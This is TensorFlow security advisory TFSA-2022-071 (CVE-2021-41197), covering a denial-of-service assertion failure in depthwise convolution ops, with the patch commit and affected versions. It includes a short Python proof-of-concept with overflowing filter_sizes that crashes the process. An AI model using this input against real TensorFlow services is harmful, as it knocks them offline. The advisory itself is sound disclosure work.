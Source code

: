 ## TFSA-2022-071: `CHECK` failure in depthwise ops via overflows

### CVE Number
CVE-2021-41197

### Impact
The implementation of depthwise ops in TensorFlow is vulnerable to a denial of service via `CHECK`-failure (assertion failure) caused by overflowing the number of elements in a tensor:

```python
import tensorflow as tf

input = tf.constant(1, shape=[1, 4, 4, 3], dtype=tf.float32)
filter_sizes = tf.constant(1879048192, shape=[13], dtype=tf.int32)
out_backprop = tf.constant(1, shape=[1, 4, 4, 3], dtype=tf.float32)
tf.raw_ops.DepthwiseConv2dNativeBackpropFilter(
    input=input, filter_sizes=filter_sizes, out_backprop=out_backprop, strides=[1, 1, 1, 1], padding="SAME")
```

This is another instance of [TFSA-2021-198](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-198.md) (CVE-2021-41197).

### Patches
We have patched the issue in GitHub commit [3796cc4fcd93ae55812a457abc96dcd55fbb854b](https://github.com/tensorflow/tensorflow/commit/3796cc4fcd93ae55812a457abc96dcd55fbb854b).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
